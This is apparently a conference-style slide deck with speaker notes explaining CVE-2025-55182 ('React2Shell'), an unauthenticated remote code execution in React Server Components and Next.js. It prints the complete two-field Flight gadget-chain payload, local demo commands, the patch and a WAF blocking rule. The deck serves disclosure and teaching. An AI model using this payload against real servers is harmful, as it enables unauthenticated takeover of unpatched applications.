

Intro
===

# CVE-2025-55182 - **React2Shell**
### Unauthenticated RCE via Next.js Server Actions

<!-- speaker_note: Disclosed Dec 3 2025 by Lachlan Davidson - patch released same day -->

<!-- pause -->

```
Affects:   react-server-dom-webpack,           19.0, 19.1.0, 19.1.1, 19.2.0
           react-server-dom-parcel,
           react-server-dom-turbopack

           Next.js                             16.0.0 – 16.0.6

CVSS:      10.0 - Critical
Impact:    Full server-side code execution
Vector:    Unauthenticated HTTP POST
```
<!-- alignment: center -->
<!-- speaker_note: This affected server side components specifically, so Next v15 & v16, any versions that use Next's app router -->

<!-- speaker_note: CVSS 10.0 - maximum possible severity -->
<!-- speaker_note: One POST request and you have full RCE, so you can set up permanence, access files, reports of crypto miners being installed, etc-->

<!-- pause -->

---
<!-- speaker_note: In this presentation, I'm going to try to give enough details, to understand whats happening behind the scenes, and then I'll do a quick demo -->
This Presentation:

<!-- new_line -->

Context of how it works     →     Run the exploit locally


<!-- end_slide -->

<!-- alignment: center -->
<!-- new_line -->
<!-- new_line -->
<!-- new_line -->
<!-- new_line -->
<!-- new_line -->
<!-- new_line -->
<!-- new_line -->
<!-- new_line -->
<!-- new_line -->
<!-- new_line -->
<!-- new_line -->
<!-- new_line -->
<!-- new_line -->
<!-- new_line -->
<!-- new_line -->
<!-- new_line -->
<!-- new_line -->
<!-- new_line -->
Javascript Tricks
=== 
<!-- speaker_note: To understand the exploit, we need to understand a couple of JavaScript tricks that the exploit relies on - thenables and constructor chaining -->
<!-- end_slide -->

Javascript Trick #1: Thenables
===

## Duck-typed Promises

<!-- alignment: center -->

`await` doesn't check `instanceof Promise`.
Any object with a `.then` method is auto-called:

<!-- speaker_note: First primitive - JS spec says if a value has a .then that's a function, call it - no instanceof check -->

<!-- pause -->

<!-- column_layout: [3,2] -->


<!-- column: 0 -->

```javascript +exec +id:thenable
/// console.log("\n\n\n\n\n\n\n");
const sneaky = {
  then(resolve) {
    console.log(".then() called!");
    resolve("done");
  }
};

Promise.resolve(sneaky).then(v =>
  console.log("resolved:", v)
);
```

<!-- column: 1 -->

<!-- snippet_output: thenable -->

<!-- column_layout: [1] -->

<!-- column: 0 -->

<!-- speaker_note: The exploit uses this to hijack React's internal await on deserialized chunks -->

<!-- pause -->


---
**Control `.then` on an object → control what `await` does.**

<!-- speaker_note: Next - constructor chaining - how we get Function from any object -->

<!-- end_slide -->

JS Trick #2: Constructor chaining
===
## Every object leads to `Function`

Every JavaScript object has a `.constructor` property - the class that created it.
Every class is a function, so its `.constructor` is `Function`.

<!-- speaker_note: Second primitive - every object's .constructor points to its class; every class's .constructor is Function -->

<!-- pause -->

<!-- column_layout: [8, 3] -->

<!-- column: 0 -->

```javascript +exec +id:constructor_chain
/// console.log("");
const obj = {};
console.log(obj.constructor.name);
console.log(obj.constructor.constructor.name);
console.log(obj.constructor.constructor === Function);
```

<!-- column: 1 -->

<!-- snippet_output: constructor_chain -->

<!-- speaker_note: Flight decoder does unchecked prototype traversal - attacker reaches Function from any chunk object -->

<!-- pause -->

<!-- column_layout: [1] -->

<!-- column: 0 -->

`Function` takes a **string** and returns an executable function:

<!-- column_layout: [8, 3] -->

<!-- column: 0 -->

```javascript +exec +id:function_eval
/// console.log("");
const F = {}.constructor.constructor;
console.log(F("return 1+1")());
console.log(F("return process.version")());
```

<!-- column: 1 -->

<!-- snippet_output: function_eval -->

<!-- reset_layout -->

<!-- alignment: center -->

<!-- speaker_note: Function(string) is basically eval - combined with thenables, those are the two building blocks -->

<!-- pause -->

**Two property hops from any object → dynamic code execution.**

<!-- end_slide -->

Context
===

## Server Actions & the Flight Protocol

<!-- speaker_note: This vulnerability affected Server Actions - functions marked "use server" the browser calls via POST in order for react's server components to update the server -->

```typescript
"use server"
async function submitOrder(item: string, qty: number) {
  await db.insert({ item, qty })
  return { ok: true }
}
```

On submit the browser POSTs to the page URL.

<!-- pause -->

---

Arguments are serialized in React's **Flight** format:

<!-- speaker_note: Arguments serialized in React's Flight protocol - numbered multipart chunks -->

```
POST /
Next-Action: <sha256-hash>
Content-Type: multipart/form-data

Field "0":  ["$1"]
Field "1":  {"item":"widget","vendor":"$2:vendorName"}
Field "2":  {"vendorName":"Vehikl"}
```

<!-- pause -->


`$`-prefixed strings are cross-chunk references resolved by the decoder.

<!-- speaker_note: $-prefixed strings are cross-chunk references resolved by bracket access - this is where it breaks -->

<!-- end_slide -->

Context cont.
===

## Flight Deserialization


```
Field "0":  ["$1"]
Field "1":  {"item":"widget","vendor":"$2:vendorName"}
Field "2":  {"vendorName":"Vehikl"}
```

---

The decoder resolves `$2:vendorName` with bracket access - `obj["vendorName"]`.

No check whether the key is an **own property**:

<!-- speaker_note: Decoder does result = result[key] - no own-property check -->

<!-- pause -->

<!-- column_layout: [3, 1] -->

<!-- column: 0 -->

```javascript +exec +id:flight_bug
/// console.log("\n\n\n");
const obj = { vendorName: "Vehikl" };


// Own property - fine
console.log(obj["vendorName"]);
/// console.log("");
// Inherited - prototype chain
console.log(obj["constructor"].name);
/// console.log("");
console.log(
  obj["constructor"]["constructor"].name
);
```

<!-- column: 1 -->

<!-- snippet_output: flight_bug -->

<!-- reset_layout -->

<!-- speaker_note: constructor is inherited, not own - decoder happily walks the prototype chain -->


<!-- speaker_note: Two hops → Function; combined with thenables → RCE -->


<!-- end_slide -->

The Gadget Chain
===


## The Payload

Two chunks only:

<!-- speaker_note: Two multipart fields - no custom classes, no memory corruption -->

<!-- pause -->

```json
Field "0": {
  "then":      "$1:__proto__:then",
  "status":    "resolved_model",
  "reason":    -1,
  "value":     "{\"then\":\"$B0\"}",
  "_response": {
    "_prefix":   "console.log('RCE');//",
    "_formData": { "get": "$1:constructor:constructor" }
  }
}

Field "1": "$@0"
```

<!-- speaker_note: Field 0 - fake Chunk with attacker-controlled fields - every key targets a specific step in the chain -->
<!-- speaker_note: Field 1 - self-reference back to field 0, gives the decoder a real object to traverse -->

<!-- pause -->

Runs on **any route**, before auth, middleware, or action ID validation.
`Next-Action: x` (any value) is enough to trigger deserialization.


<!-- end_slide -->

The Gadget Chain: Explained
===

## Payload Steps 1 & 2 - Thenable + initialization

`"then": "$1:__proto__:then"` - steals `Chunk.prototype.then`

<!-- speaker_note: $1-__proto__-then steals Chunk.prototype.then → our object becomes a thenable -->
<!-- speaker_note: Decoder awaits → JS auto-calls .then() -->

```json
[0]: {
  "then":      "$1:__proto__:then",
  "status":    "resolved_model",
  "reason":    -1,
  "value":     "{\"then\":\"$B0\"}",
  "_response": {
    "_prefix":   "console.log('RCE');//",
    "_formData": { "get": "$1:constructor:constructor" }
  }
}
[1]: "$@0"
```

Chunk 0 becomes a thenable → `await` calls `.then()` automatically.

<!-- pause -->

`"status": "resolved_model"` - triggers chunk initialization

<!-- speaker_note: status - resolved_model triggers initializeModelChunk on our fake chunk -->
<!-- speaker_note: _response is normally trusted - here it's fully attacker-controlled -->

```javascript
// Inside Chunk.prototype.then (simplified):
if (this.status === "resolved_model") {
  initializeModelChunk(this);
  //                   ^^^^  - this is our fake chunk
}
```

`initializeModelChunk` reads `this._response` - normally trusted.
Here it's attacker-controlled.


<!-- end_slide -->

The Gadget Chain: Explained cont.
===

## Payload Steps 3

`"_formData": { "get": "$1:constructor:constructor" }` replaces `.get` with `Function`:

<!-- speaker_note: $1-constructor-constructor resolves to Function - assigned to _formData.get -->

```json
[0]: {
  "then":      "$1:__proto__:then",
  "status":    "resolved_model",
  "reason":    -1,
  "value":     "{\"then\":\"$B0\"}",
  "_response": {
    "_prefix":   "console.log('RCE');//",
    "_formData": { "get": "$1:constructor:constructor" }
  }
}
[1]: "$@0"
```

<!-- pause -->

`"value": "{\"then\":\"$B0\"}"` triggers the `$B` (Blob) handler:

<!-- speaker_note: dollar sign B0 triggers the Blob handler - calls _formData.get(_prefix + id) -->
<!-- speaker_note: Becomes Function("<COMMAND>;//" + "0") - the double-slash drops the trailing zero -->
<!-- speaker_note: Function returns an executable, it runs - shell access -->

```javascript
// Blob handler calls:
response._formData.get(response._prefix + id)
// Which is now:
Function("<COMMAND>;//" + "0")  // → executable function
```
<!-- end_slide -->

Live Demo - Setup
===
## Demo Target - Stock Next.js App

<!-- speaker_note: Bone-stock create-next-app - no modifications, no server actions, no custom routes -->

```bash
npx create-next-app@16.0.6 demo --yes
cd demo
npm run dev
```

<!-- pause -->

A completely default Next.js app. No custom code, no server actions defined.

The App Router enables Server Components by default.

<!-- speaker_note: Using the last unpatched next version, App Router enabled by default - that's all the exploit needs -->
<!-- speaker_note: npm run dev, listening on port 3000 -->

<!-- pause -->

```bash +exec
hurl <<'EOF' 2>&1 | cut -c1-250
GET http://localhost:3000
HTTP 200
EOF
```

<!-- end_slide -->

Live Demo
===

## Live - RCE

<!-- speaker_note: Two-field payload via hurl -->

```bash +exec
cat exploit.hurl
```

<!-- pause -->

<!-- speaker_note: Server returns 500 - action ID invalid - but deserialization already happened, command already ran -->
<!-- speaker_note: One unauthenticated POST -->

```bash +exec
hurl exploit.hurl 2>&1
```

<!-- end_slide -->

The Patch
===

## The Fix - Two main changes

<!-- speaker_note: Three independent fixes - any one breaks the chain -->

**1. Own-property check on traversal**

```javascript
// BEFORE                          // AFTER
obj = obj[path[i]];               if (!hasOwnProperty.call(obj, path[i]))
                                     throw new Error("Invalid reference");
                                   obj = obj[path[i]];
```
<!-- speaker_note: hasOwnProperty check on traversal - constructor is inherited, throws -->

<!-- pause -->

**2. Symbol-based response lookup**

```javascript
// BEFORE                          // AFTER
reviveModel(chunk._response, ...)  chunk.reason[Symbol("response")]
```

Symbols can't exist in JSON - fake chunks can never provide a fake `_response`.
<!-- speaker_note: Symbol-based response lookup - Symbols can't exist in JSON, can't be forged -->

<!-- pause -->



<!-- end_slide -->

Patching the Demo
===

Let's see the patch in action - we'll update our demo and see the exploit fail.

<!-- speaker_note: Let's patch our demo app with the newest Next.js 16.0.7 patch -->

```bash +exec
echo "npm install next@latest react@latest react-dom@latest" | pbcopy
```

<!-- pause -->

---
```bash +exec
hurl exploit.hurl 2>&1
```

<!-- speaker_note: Same POST, but now it fails  -->

<!-- end_slide -->

Summary
===

**A number of different moving parts:**

- **Thenables** - `await` works on any object with a `.then`; no `instanceof` check
<!-- speaker_note: To summarize, there were a few tricks to understand here, using then to turn something into a thenable-->

<!-- pause -->

<!-- new_line -->
- **Constructor chaining** - two hops from any object reaches `Function`
<!-- speaker_note: We talked about constructor chaining, and the Function constructor which is `eval` -->

<!-- pause -->

<!-- new_line -->
- **The bug** - React's Flight decoder resolved cross-chunk references with unchecked bracket access
<!-- speaker_note: In secure deserialization - letting us walk the prototype chain via crafted field names -->

<!-- pause -->

<!-- new_line -->
- **The exploit** - two multipart fields, no auth, runs before action ID validation; we saw it execute `whoami` on a stock Next.js app

<!-- speaker_note: Lastly we say the result, using our payload against a stock Next app, executing our RCE -->

<!-- pause -->

<!-- new_line -->

**Remediation**

- Upgrade to **Next.js ≥ 16.0.7** / **React ≥ 19.0.1, 19.1.2, 19.2.1**
- WAF: block `__proto__` and `constructor:constructor` in POST bodies
<!-- speaker_note: For remediation - upgrade to the patched versions, or as a temporary mitigation, block __proto__ and constructor:constructor in POST bodies with a firewall rule -->
<!-- speaker_note: Thanks for listening to my demo, I have this presentation script including sources on a public repo if anyone is interested.
-->
<!-- comment:
  Sources:
  - https://cloud.google.com/blog/topics/threat-intelligence/threat-actors-exploit-react2shell-cve-2025-55182
  - https://aws.amazon.com/blogs/security/china-nexus-cyber-threat-groups-rapidly-exploit-react2shell-vulnerability-cve-2025-55182/
  - https://www.wiz.io/blog/nextjs-cve-2025-55182-react2shell-deep-dive
  - https://unit42.paloaltonetworks.com/cve-2025-55182-react-and-cve-2025-66478-next/
 -->